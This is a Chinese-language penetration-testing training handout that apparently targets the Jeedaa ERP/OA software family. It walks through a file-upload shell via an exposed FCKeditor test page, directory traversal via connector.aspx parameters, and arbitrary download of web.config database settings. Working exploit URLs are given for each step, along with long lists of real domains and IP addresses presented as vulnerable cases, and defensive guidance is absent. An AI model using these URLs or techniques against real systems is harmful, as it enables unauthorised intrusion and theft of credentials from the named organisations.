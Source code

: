 # 米斯特白帽培训讲义 实战篇 捷达系统

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)

> 整理：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 概述

官网：http://www.jeedaa.com/

主要产品有： 

+ 捷达ERP
+ 捷达OA
+ 捷达eHR
+ 捷达CRM
+ 捷达eFax
+ 捷达仓库管理
+ 捷达进销存.Net
+ 捷达协同办公.Net

均存在能够 GetShell 的漏洞。

这个东西仍旧是闭源的，我们使用它的演示站点，`http://demoerp.jeedaa.com`来进行演示。

## 文件上传

我们用御剑扫一扫。

![](http://upload-images.jianshu.io/upload_images/118142-d8fcd807922e4128.jpg)

出现了 FCKEditer。我们访问`/fckeditor`，发现是 403 的。

![](http://upload-images.jianshu.io/upload_images/118142-5919fdb9bf38ea9f.jpg)

但是我们扫描`/fckeditor/fckeditor`：

![](http://upload-images.jianshu.io/upload_images/118142-c2310e91858835b6.jpg)

发现有三个 200。我们访问`/fckeditor/fckeditor/editor/filemanager/upload/test.html`：

![](http://upload-images.jianshu.io/upload_images/118142-9a9f51512969e688.jpg)

我们在查看元素里面添加一个 ASPX，然后随便上传一个 ASP 文件上去。获得了该文件的链接。

![](http://upload-images.jianshu.io/upload_images/118142-c126182c7b98a75e.jpg)

![](http://upload-images.jianshu.io/upload_images/118142-ceaba8d857552e53.jpg)

部分案例（均为捷达的演示站点）：

+ `http://erp2008v4.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
+ `http://erp.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
+ `http://qd.jeedaa.net//fckeditor/FCKeditor/editor/filemanager/upload/test.html`
+ `http://oa.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
+ `http://demoerp.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
+ `http://crm.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
+ `http://shijia.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
+ `http://lg.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`
+ `http://hj.jeedaa.com/fckeditor/FCKeditor/editor/filemanager/upload/test.html`

## 目录遍历

访问`/fckeditor/FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=E:/&CurrentFolder=%2F`

![](http://upload-images.jianshu.io/upload_images/118142-eb7ab441926ff035.jpg)

可以改动`CurrentFolder`参数来进入子目录，也可以改动`Type`参数来切换盘符。

## 文件下载

访问`/WebApp/PassportService/download.aspx?p=/AccreditAdmin/Web.config`下载数据库文件：

![](http://upload-images.jianshu.io/upload_images/118142-d9e4cd2e61c475cf.png)

部分案例：

+ `http://221.136.81.169/WebApp/PassportService/download.aspx?p=web.config`
+ `http://61.164.170.82:88/WebApp/PassportService/download.aspx?p=web.config`
+ `http://www.nbjyly.com/WebApp/PassportService/download.aspx?p=web.config`
+ `http://oa.jobgroup.cn:2013/WebApp/PassportService/download.aspx?p=web.config`
+ `http://erp2008v4.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
+ `http://erp.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
+ `http://qd.jeedaa.net//WebApp/PassportService/download.aspx?p=web.config`
+ `http://61.130.104.162:8080/WebApp/PassportService/download.aspx?p=web.config`
+ `http://oa.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
+ `http://demoerp.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
+ `http://crm.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
+ `http://shijia.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
+ `http://lg.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
+ `http://hj.jeedaa.com/WebApp/PassportService/download.aspx?p=web.config`
+ `http://oa.nbself.com/WebApp/PassportService/download.aspx?p=web.config`
+ `http://61.164.170.82:88/WebApp/PassportService/download.aspx?p=web.config`
